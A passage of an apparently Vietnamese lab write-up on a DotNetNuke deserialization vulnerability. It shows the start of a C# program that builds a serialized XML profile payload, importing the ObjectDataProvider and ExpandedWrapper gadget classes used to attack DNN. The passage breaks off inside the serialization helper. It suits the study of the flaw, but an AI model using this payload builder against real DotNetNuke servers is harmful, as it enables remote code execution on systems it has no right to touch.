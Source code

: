 ![1](image/29.png)

Ta có Payload thực thi như sau 

```js
using System;  
using System.IO;  
using System.Xml;  
using System.Xml.Serialization;  
using System.Windows.Data;              // ObjectDataProvider  
using DotNetNuke.Common.Utilities;      // FileSystemUtils (nếu bạn đã add DLL)  
using System.Data.Services.Internal;    // ExpandedWrapper (nếu có)  
  
namespace example  
{  
    public class Program  
    {  
        private static string fileFolder = "C:\\Users\\chinh\\Documents\\DNN"; // CHANGE THIS  
        public static void Serialize(Object obj) // method xml serialize arbitrary object   
        {  
            // tạo xml root element  
            XmlDocument xmlDocument = new XmlDocument();  
            XmlElement xmlElementRoot = xmlDocument.CreateElement("profile");  
            xmlDocument.AppendChild(xmlElementRoot);  
  
            // tạo node con item có attribute type chứa tên object type  
            XmlElement xmlElementItem = xmlDocument.CreateElement("item");  
            xmlElementItem.SetAttribute("type", obj.GetType().AssemblyQualifiedName);  
  
            // serialize obj thành xmlDocumentObj  
            XmlDocument xmlDocumentObj = new XmlDocument();  
            XmlSerializer xmlSerializer = new XmlSerializer(obj.GetType());  
            StringWriter stringWriter = new StringWriter();  
            xmlSerializer.Serialize(stringWriter, obj);  
            xmlDocumentObj.LoadXml(stringWriter.ToString());  
  
            // thêm xml serialized object này vào node item và thêm node item vào root element  
        xmlElementItem.AppendChild(xmlDocument.ImportNode(xmlDocumentObj.DocumentElement, true));  
            xmlElementRoot.AppendChild(xmlElementItem);  
```